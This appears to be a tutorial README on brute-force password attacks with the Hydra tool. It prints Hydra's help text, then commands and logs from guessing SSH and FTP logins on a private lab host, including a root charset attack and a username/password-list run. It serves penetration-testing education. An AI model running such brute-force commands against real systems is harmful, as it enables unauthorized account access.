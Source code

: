 # BruteForcing
Brute force attack is a method used in cryptanalysis to find a password or key. It involves testing, one by one, all possible combinations. 
* This method is generally considered the simplest conceivable.
* It allows any password to be broken in a finite time regardless of the protection used, but the time increases with the length of the password
* This method is often combined with dictionary and rainbow table attack to find the secret faster.

## Tool
<hr>

### Hydra
* Hydra is a brute-forcing tool that helps penetration testers and ethical hackers crack the passwords of network services.
* Hydra can perform rapid dictionary attacks against more than 50 protocols. This includes telnet, FTP, HTTP, HTTPS, SMB, databases, and several other services.

### Launch hydra

```bash
hydra
```
output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Syntax: hydra [[[-l LOGIN|-L FILE] [-p PASS|-P FILE]] | [-C FILE]] [-e nsr] [-o FILE] [-t TASKS] [-M FILE [-T TASKS]] [-w TIME] [-W TIME] [-f] [-s PORT] [-x MIN:MAX:CHARSET] [-c TIME] [-ISOuvVd46] [-m MODULE_OPT] [service://server[:PORT][/OPT]]

Options:
  -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE
  -p PASS  or -P FILE  try password PASS, or load several passwords from FILE
  -C FILE   colon separated "login:pass" format, instead of -L/-P options
  -M FILE   list of servers to attack, one entry per line, ':' to specify port
  -t TASKS  run TASKS number of connects in parallel per target (default: 16)
  -U        service module usage details
  -m OPT    options specific for a module, see -U output for information
  -h        more command line options (COMPLETE HELP)
  server    the target: DNS, IP or 192.168.0.0/24 (this OR the -M option)
  service   the service to crack (see below for supported protocols)
  OPT       some service modules support additional input (-U for module help)

Supported services: adam6500 asterisk cisco cisco-enable cvs firebird ftp[s] http[s]-{head|get|post} http[s]-{get|post}-form http-proxy http-proxy-urlenum icq imap[s] irc ldap2[s] ldap3[-{cram|digest}md5][s] memcached mongodb mssql mysql nntp oracle-listener oracle-sid pcanywhere pcnfs pop3[s] postgres radmin2 rdp redis rexec rlogin rpcap rsh rtsp s7-300 sip smb smtp[s] smtp-enum snmp socks5 ssh sshkey svn teamspeak telnet[s] vmauthd vnc xmpp

Hydra is a tool to guess/crack valid login/password pairs.
Licensed under AGPL v3.0. The newest version is always available at;
https://github.com/vanhauser-thc/thc-hydra
Please don't use in military or secret service organizations, or for illegal
purposes. (This is a wish and non-binding - most such people do not care about
laws and ethics anyway - and tell themselves they are one of the good ones.)

Example:  hydra -l user -P passlist.txt ftp://192.168.0.1
```

`Example : hydra -l user -P passlist.txt ftp://192.168.0.1`

## protocols supported.
<img src="forcebruteP.png" width="80%">

# let's try
```bash
hydra -l root -x 1:9:aA1 192.168.133.129 ssh
```
```bash
hydra -V -l root -x 1:9:aA1 192.168.133.129 ssh
```
output

```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 16:59:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 242234 login tries (l:1/p:242234), ~15140 tries per task
[DATA] attacking ssh://192.168.133.129:22/
```
## Brute forcing
we will create two files containing usernames and passwords.

### Let's try
```bash
hydra -V -L usernames -P passwords 192.168.133.129 ftp

````
Output
```bash
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-14 17:35:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ftp://192.168.133.129:21/
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty" - 1 of 16 [child 0] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "azerty12" - 2 of 16 [child 1] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty" - 3 of 16 [child 2] (0/0)
[ATTEMPT] target 192.168.133.129 - login "samglish" - pass "qwerty12" - 4 of 16 [child 3] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty" - 5 of 16 [child 4] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "azerty12" - 6 of 16 [child 5] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty" - 7 of 16 [child 6] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Samglish" - pass "qwerty12" - 8 of 16 [child 7] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty" - 9 of 16 [child 8] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "azerty12" - 10 of 16 [child 9] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty" - 11 of 16 [child 10] (0/0)
[ATTEMPT] target 192.168.133.129 - login "Glish" - pass "qwerty12" - 12 of 16 [child 11] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty" - 13 of 16 [child 12] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "azerty12" - 14 of 16 [child 13] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty" - 15 of 16 [child 14] (0/0)
[ATTEMPT] target 192.168.133.129 - login "glish" - pass "qwerty12" - 16 of 16 [child 15] (0/0)
|
```

dsfsdsfsf